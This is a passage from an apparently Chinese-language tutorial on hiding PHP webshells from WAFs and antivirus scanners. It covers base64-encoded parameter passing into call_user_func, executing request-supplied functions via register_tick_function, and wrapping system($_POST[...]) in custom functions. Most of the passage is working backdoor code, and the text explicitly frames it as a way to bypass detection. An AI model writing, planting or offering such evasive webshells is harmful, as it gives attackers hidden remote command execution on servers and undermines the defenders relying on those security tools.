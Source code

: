 加密手法可以看我写的博客： [https://blog.zgsec.cn/archives/147.html](https://blog.zgsec.cn/archives/147.html)

## 9# 传参绕过

将恶意代码不写入文件，而是通过传参传入，所以这个比较难以被常规 WAF 所识别

### 9.1 Base64 传参

```bash
$decrpt = $_REQUEST['a'];
$arrs = explode("|", base64_decode($decrpt));
call_user_func($arrs[0],$arrs[1]);
```

传参内容：

```bash
a=c3lzdGVtfHdob2FtaSAg    //system|whoami  的 base64 加密
```

也可以尝试使用其他编码或者加密方式进行传参

### 9.2 函数构造传参

可以用一些定义函数的函数来进行传参绕过，比如使用 `register_tick_function()` 这个函数

```bash
register_tick_function ( callable $function [, mixed $... ] ) : bool
```

例子如下：

```bash
$f = $_REQUEST['f'];
declare(ticks=1);
register_tick_function ($f, $_REQUEST['aabyss']);
```

## 10# 自定义函数绕过

通过自定义函数，将恶意代码内容隐藏于自定义函数当中，再进行拼接执行

### 10.1 简单自定义函数

这个要与其他的姿势进行结合，目前没办法通过简单自定义函数进行免杀

```bash
function out($b){
    return $b;
}
function zhixin($a){
    return system($a);
}
function post(){
    return $_POST['aabyss'];
}

function run(){
    return out(zhixin)(out(post()));
}

run();
```
